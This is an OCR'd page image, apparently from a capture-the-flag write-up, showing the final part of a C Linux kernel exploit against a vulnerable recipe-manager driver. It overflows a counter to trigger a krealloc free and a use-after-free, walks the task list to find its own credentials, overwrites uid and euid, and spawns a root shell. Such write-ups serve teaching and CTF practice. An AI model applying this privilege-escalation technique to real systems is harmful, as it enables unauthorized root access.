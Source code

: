 ```c
    memset(buf, 0x41, sizeof(buf));

	// make manger.num_of_recipes = 0xff
    for(int i=0; i<0xff; i++){ 
		alloc_recipe(buf, bufsize, 1);
	}

	// overflow manager.num_of_recipes back to 0
	// krealloc will free manager.recipes_list [krealloc(ptr, 0) = kfree(ptr)]
	// we gained UAF on the recipes_list
	alloc_recipe(buf, bufsize, 1);


	ulong current_task = INIT_TASK;
	uint pid = getpid();
	while(1){
		uint current_pid = (uint)read_qword(current_task+PID_OFF);
		if(current_pid == pid){
			break;
		}else{
			current_task = read_qword(current_task+NEXT_TASK_OFF)-NEXT_TASK_OFF;
		}
	}
	
	leak("Current task", current_task);
	ulong creds = read_qword(current_task+CREDS_OFF);
	leak("Creds", creds);

	change_uid(creds+20); // EUID (effective UID)
	change_uid(creds+4); // current UID

	system("/bin/sh");

    return 0;
}
```

**Note**: first override the `euid` and then the `uid`, otherwise you won't be able to change the `euid`, for some reason.

